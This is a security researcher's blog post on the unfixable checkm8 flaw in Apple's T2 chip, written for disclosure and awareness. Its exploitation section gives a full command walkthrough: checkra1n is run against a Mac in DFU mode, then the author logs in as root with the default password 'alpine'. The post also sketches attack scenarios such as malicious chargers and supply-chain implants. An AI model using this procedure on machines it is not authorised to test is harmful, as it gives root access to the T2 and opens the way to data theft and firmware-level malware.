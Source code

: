 +++
date = "2020-10-16T09:16:31+02:00"
title = "macOS Big Sur, the T2rminator?"
layout = "blog"
draft = false
+++

**Questions raised since the last blog post and the recent release of macOS Big Sur and the M1 chip require some clarification.**

## Preface

My previous blog post around the T2 vulnerabilities on Apple hardware caused a wave of news articles describing the issue, ranging from terrible copied to actually being written in a better way. I'm glad the post triggered such a wide reaction and reached its end goal: awareness.

A couple of interesting links if you aren't up to speed around the issue:

- Blog *T2 Research Team*: [On bridgeOS / T2 Research](https://blog.t8012.dev/on-bridgeos-t2-research/)
- Article *AppleInsider*: [Apple's T2 chip has an unfixable vulnerability that could allow root access](https://appleinsider.com/articles/20/10/05/apples-mac-t2-chip-has-an-unfixable-vulnerability-that-could-allow-root-access)
- Podcast *The Checklist*: [The T2 Vulnerability with Patrick Wardle](https://www.securemac.com/checklist/checklist-202-the-t2-vulnerability-with-patrick-wardle)

## Recap

A tiny recap of what was discussed [in the previous blog post "Crouching T2, Hidden Danger"](/blog/crouching-t2-hidden-danger/):

- The T2 security chip is used for verifying your macOS installation to be safe, keep track of encryption keys, handle touchID/faceID, handle keyboard and do other stuff such as hardware decoding of media formats.
- The T2 security chip in 2018-2020 Mac models is based on the A12 chip, which is vulnerable for the same checkm8 vulnerability.
- The chip can be triggered in booting in DFU mode without any physical attestation (such as holding in the power button) by sending arbitrary packets of information over USB Power Delivery (called "Vendor Defined Messages" or VDMs).
- This can be combined with checkra1n & blackbird vulnerabilities to gain **root** access to the T2 chip by restarting the T2 in DFU mode.

## Exploitation

And now, the moment you've all been waiting for. Let's jailbreak a T2 chip!

```shell
# install devtools
$ xcode-select --install

# check the script & install homebrew
$ /bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/master/install.sh)"

# install packages
$ brew install libplist automake autoconf pkg-config openssl libtool llvm libusb

# git clone, autogen.sh, make & make install
# https://github.com/sbingner/ldid
# https://github.com/libimobiledevice/libusbmuxd
# https://github.com/libimobiledevice/libimobiledevice
# https://github.com/libimobiledevice/usbmuxd

# get the checkra1n beta from https://checkra.in/#release
# and verify the integrity hash matches
$ shasum -a256 checkra1n.app
d4def982494bc0b99c6df57dc94338c205902aaa8949e9ae046812ed57743ccb

# put your macOS device in DFU mode using the Apple Support document
# https://support.apple.com/guide/apple-configurator-2/revive-or-restore-mac-firmware-apdebea5be51/mac

# verify you can see your Mac in DFU mode
$ ioreg -p IOUSB
+-o Root <class I0RegistryEntry, id 0x100000100, retain 17>
  +-o AppleUSBXHCI Root Hub Simulation@14000000 <class AppleUSBRootHubDevice, id 0x100000312, registered, matched, active, busy 0 (2 ms), retain 14>
    +-o Apple Internal Keyboard / Trackpad@14400000 <class AppleUSBDevice, id 0x1000041a8, registered, matched, active, busy @ (2 ms), retain 16>
    +-o BRCM20702 Hub@14300000 <class AppleUSBDevice, id 0x10000420d, registered, matched, active, busy @ (@ ms), retain 12>
    | +-o Bluetooth USB Host Controller@14330000 <class AppleUSBDevice, id 0x100004223, registered, matched, active, busy 0 (1 ms), retain 17>
    +-o Apple Mobile Device (DFU Mode)@14100000 <class AppleUSBDevice, id 0x100004428, registered, matched, active, busy @ (1 ms), retain 14>

# Run checkra1n exploitation & watch the target reboot
$ sudo ./checkra1n.app/Contents/MacOS/checkra1n --cli --verbose-boot --verbose-logging

# Bring up a proxy to dropbear
$ iproxy 2222 44 &

# Connect to T2 with password 'alpine' & profit
$ ssh -p 2222 root@127.0.0.1
```

## Video Examples

And if you can't try out yourself, here are a couple of videos:

### Auto Jailbreaking the T2 Chip

In this example, we are going to jailbreak the T2 chip *without any user interaction*.
This shows the potential for any automated malicious attacks that are possible with hardware inserts.
Some magazines mentioned physical access to be difficult to exploit, but let's not forget that leaving malicious USB sticks is one of the most widely used attack methods for (physical) penetration testing. Or think about [the OMG cable](https://shop.hak5.org/products/o-mg-cable).

[!["auto jailbreak the T2"](https://i.ytimg.com/vi/LRoTr0HQP1U/hqdefault.jpg)](https://www.youtube.com/watch?v=LRoTr0HQP1U "Auto Jailbreaking the T2")

### Replacing the EFI on a Mac

And to prove that we do have in fact full operability on the system, in this case we are swapping the [MacEFI](https://apple.stackexchange.com/questions/98315/what-does-boot-efi-actually-do) with a modified version with a different boot logo.
This basically proves anything is possible once you have T2 access, since it is situated so early in the boot process.

[!["Wiping and Restoring a locked T2 MacBook"](https://i.ytimg.com/vi/uDSPlpEP-T0/hqdefault.jpg)](https://www.youtube.com/watch?v=uDSPlpEP-T0 "Wiping and Restoring a locked T2 MacBook")

## Attack Scenarios

So now we've covered the official things, let's brainstorm for a bit what attack scenarios are possible:

Attack Vectors:

- Supply Chain Attacks: intercepting orders & installing an USB implant in your Mac  
- Malicious peripherals: using various non-Apple peripherals with Macs is very common
- Physical access: stealing your Mac

Potential Attacks:

- You buy a new charger or USB adapter from AliExpress or any other market, which actually carries an implant that jailbreaks your T2 and installs kernel malware when connected.
- Someone steals your powered down or locked MacBook and steals your data on disk and iCloud while disabling *Find My* and asks for a ransom.
- Someone steals your Mac, replaces your macOS installation with something infected & puts it back, stealing your bank credentials or spying on you.
- Someone sells you a malicious charger (or replaces yours) which auto-infects your macOS installation on every boot.
- A batch of Macs destined for **a government facility** are intercepted, USB-C hardware implants are inserted and data is exfiltrated over a cellular connection to another state actor. Remember [the SuperMicro hack controversy](https://www.zdnet.com/article/security-researcher-cited-in-supermicro-chip-hack-investigation-casts-doubt-on-story/)? *It's that on steroids.*
- A bunch of malicious cables which are sold to a research facility ship keystrokes to a remote server, allowing for mass theft of intellectual property.

*Fun fact: did you know that your Mac discloses its serial number to every charger connected? Your serial is not so secret after all.*

## Mitigations

1. Supply Chain Attacks : trust on Apple and other researchers to do their job? :-)
2. Malicious peripherals : buy accessories (and Macs for that matter) only from official and reputable shops.
3. Physical Access : keep a close eye on your Mac and[remove the device from iCloud](https://support.apple.com/guide/icloud/remove-a-device-mmfc0eeddd/icloud) in case of theft.
4. Buy a new Mac with a T3 chip :-(
5. Verify your EFI payload with [efivalidate](https://github.com/t8012/efivalidate).
6. Update your Mac! macOS Big Sur includes a couple of mitigations described below.

## Let's add big Sur!

macOS Big Sur finally brings some new security features to the masses, bringing macOS more up to speed compared to its iOS kin:

1. Installing profiles is not longer possible via CLI, requiring graphical confirmation in System Settings or a full MDM enrollment.
This will prevent malware installing malicious profiles for persistence or security degradation like disabling the firewall.

2. Signed System Volumes (SSV) on your boot disk **and the T2 with bridgeOS 5** ensure files on the filesystem are checked for integrity on boot. Only a valid *snapshot* of your system volume is mounted instead of a full copy which is mounted read-only.

3. Kernel extensions are now supposed to be installed as System Extensions which run in user-space. Kernel & System extensions are also stored in a read-only portion in memory.

4. Modifications to the root certificate store now require graphical Administrator3 approval.

## So will M1 fix it all?

Moving different things to the same SoC should at least remove some threat vectors such as Thunderbolt firmware attacks.
Simplifying things (such as moving to a single architecture) will always benefit security.
There is no news yet on what kind of T-chip is included in the M1 chip, so further research is required.
All we can say for now: it's probably safer.

*But do you -really- care tough? The new chip's a beast!* As proven by various benchmarks, the *cheapest* MacBook now outperforms the *most expensive* one.
But if you -can- wait, I really suggest to wait for the M2 chip which will most probably blow us away like we've never seen.

## One More Thing

But I shouldn't always bring bad news.

The checkra1n team will be releasing [a T2 SDK](https://github.com/t8012/t2sdk) to develop applications for the T2 bridgeOS to facilitate security research on the T2 platform, along with [a public Wiki page](https://wiki.t8012.dev/) to help others investigate too.

They will also be releasing [a USB-PD screamer cable](https://blog.t8012.dev/plug-n-pwn/#usb-c-debug-probe) allowing others to investigate the USB-PD protocol used by USB-C devices and find new vulnerabilities in this NDA'd Intel protocol.
